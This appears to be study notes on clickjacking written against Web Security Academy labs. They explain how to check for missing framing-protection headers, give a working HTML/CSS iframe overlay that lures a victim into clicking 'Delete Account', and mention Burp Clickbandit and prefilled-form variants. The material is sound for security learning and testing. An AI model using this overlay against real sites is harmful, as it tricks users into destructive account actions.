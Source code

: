 - X-Frame-Options: value
- Content-Security-Policy: frame-ancestors value

If the responses do not contain these headers, then the app is most likely vulnerable to clickjacking.
# Basic Clickjacking

After logging into an account, there may be a dangerous button such as "Delete Account". An iframe could be crafted that places a div over the button, enticing the user to click on the button, where the account is actually deleted on the main page. 

For example, it could look like:

```html
<style>
    iframe {
        position:relative;
        width:900px;
        height: 700px;
        opacity: 0.1;
        z-index: 2;
    }
    div {
        position:absolute;
        top:495px;
        left:65px;
        z-index: 1;
    }
</style>
<div>Click me</div>
<iframe src="https://0a1c0087030dc9d9801ec16800fa0000.web-security-academy.net/my-account"></iframe>
```

The button should appear to be over the functionality the user will click such as:

![[Basic Clickjacking.png]]

Try delivering to the victim to make them delete their account.
# Clickbandit

When testing for clickjacking, try using Burp's Clickbandit tool which lets you use your browser to perform the desired actions on the frameable page, then creates an HTML page containing a suitable clickjacking overlay. It is used to generate a PoC in seconds.
# Clickjacking with Prefilled Form Input

Some sites that require form completion and submission permit prepopulating of form inputs using GET parameters before submission. Some sites may also require text before form submission. Since GET values are in the URL, the target URL can be modified to use values of your choosing and the transparent button is overlaid on the decoy site.
